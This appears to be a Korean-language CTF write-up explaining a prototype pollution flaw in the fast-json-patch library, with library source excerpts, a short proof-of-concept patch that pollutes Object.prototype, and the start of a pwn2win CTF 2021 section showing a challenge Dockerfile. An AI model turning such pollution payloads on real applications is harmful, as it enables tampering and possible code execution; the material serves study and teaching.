 ```js
        return { newDocument: document, removed: removed };
    },
    copy: function (obj, key, document) {
        var valueToCopy = getValueByPointer(document, this.from);
        // enforce copy by value so further operations don't affect source (see issue #177)
        applyOperation(document, { op: "add", path: this.path, value: helpers_js_1._deepClone(valueToCopy) });
        return { newDocument: document };
    },
    test: function (obj, key, document) {
        return { newDocument: document, test: _areEquals(obj[key], this.value) };
    },
    _get: function (obj, key, document) {
        this.value = obj[key];
        return { newDocument: document };
    }
};
```
`objOps`를 보면 내부에 여러 함수들이 정의되어 있는 것을 볼 수 있다. `키:값`을 추가, 삭제, 리플레이스, 이동, 복사 등 등을 할 수 있는 것으로 보이고, 무엇을 실행할 지는 `objOps`에 인자로 넘어온 값을  통해서 판단하고 있다.

우리는 연산자로 `replace`를 보냈다.


```js
    replace: function (obj, key, document) {
        var removed = obj[key];
        obj[key] = this.value;
        return { newDocument: document, removed: removed };
    },
```
`replace()` 메서드를 확인해보면 key의 값을 `value`를 넣어주고 있는 것을 볼 수 있고, 바로 여기서 `Prototype Pollution` 취약점이 발생한다.

```js
const a = {};
const patch = [{op: "replace", path: "/constructor/prototype/polluted", value: "Prototype Pollution"}];
fastjsonpatch.applyPatch(a, patch);
```
우리는 위처럼 `path` 값을 전송을 했다. 그러니 내부 오퍼레이션에 의해서 와일문을 돌고, 제일 마지막 번째에서는 마치 `a['constructor']['prototype']['polluted']`와 같이 작동을 하게 되어 `Prototype Pollution`이 발생한다.

---
# Exploit (Web) pwn2win CTF 2021 [152 pts]

이번 주말에는 `pwn2win CTF 2021`이라는 대회가 열렸는데 해당 대회에서 웹 문제 중에 솔브가 제일 많은 문제가 `Prototype Pollution to RCE in ejs`를 이용한 문제였다. 하지만 삽질 실수를 해서 `Prototype Pollution` 공격을 하지 못 했고, 대회가 끝나고 롸업을 본 후에 `npm` 공식 사이트를 보니 거의 중간에 답이 있어서 매우 아쉬운 문제다.

```
FROM node:alpine

EXPOSE 1337

# copy flag
COPY flag.txt /root/flag.txt

# copy readflag binary (it just reads the flag)
COPY readflag /
RUN chmod 4755 /readflag

# install web application
COPY src /app
RUN cd /app && npm install

```